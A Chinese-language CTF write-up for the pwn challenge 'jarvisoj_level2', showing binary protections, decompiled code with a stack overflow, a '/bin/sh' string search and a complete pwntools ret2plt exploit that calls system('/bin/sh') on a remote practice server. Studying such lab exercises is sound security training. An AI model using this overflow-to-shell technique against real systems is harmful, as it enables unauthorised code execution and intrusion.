```yaml
---
title: jarvisoj_level2
date: 2022-07-08 12:56:46
permalink: /pages/8c8c5f/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# jarvisoj level2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level2/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

漏洞函数vulnerable_function如下

```c
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  system("echo Input:");
  return read(0, &buf, 0x100u);
}
```

函数表存在system函数

Gadget

```shell
ROPgadget --binary level2 --string "/bin/sh\x00"              
Strings information
============================================================
0x0804a024 : /bin/sh
```

## 思路分析

1. 目前信息:
   - `vulnerable_function`函数可溢出
   - `plt`表内有`system`
   - 程序内有`/bin/sh`字符串
   - No PIE
2. 思路

- 直接溢出到`plt`表内的`system`处，传入`/bin/sh`地址即可

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level2/level2'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29484)
elf = ELF(pwnfile)
padding = 0x88+4
bin_sh = 0x0804A024
payload = flat(['a'*padding, elf.plt['system'], 0xdeadbeef, bin_sh])
io.recv()
io.sendline(payload)
io.interactive()
```